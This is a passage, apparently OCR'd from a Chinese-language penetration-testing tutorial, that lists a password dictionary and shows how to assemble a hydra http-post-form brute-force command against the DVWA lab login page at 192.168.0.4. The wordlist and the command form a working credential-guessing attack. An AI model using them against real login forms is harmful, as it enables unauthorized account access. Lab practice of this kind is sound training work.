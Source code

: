 ```txt
752883855.
senlinyan$
admin001
6695zx
scictd9821622
365obsserver!
ranglm123456
13920225257
idc925111
1qaz@wsx#edc
.......199
xu15817079919
yanjin0429
zhangznw
13527380230
idc0.01
idc123&123
662766
122.224
huaiyukeji115
.......199@
liuzhangzi1988
123456!@#$%^
idc0123
dahouzi110
123.789+
trista188#**
mm1237
07736056123
TnHoo15862380404
idc0123
189532210113
idc123
gedingfeng1102888
```

以及你需要把上面抓到的`username=admin&password=6666666666&Login=Login`和`Login failed`整合一下变成这样:

```txt
username=^USER^&password=^PASS^&Login=Login:Login failed
```

整合一下，需要执行的指令就是下面这个了

```bash
$ hydra -l admin -P ./密码字典/pass-wake.txt -V -e ns 192.168.0.4 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

它很快就会给你破解出来
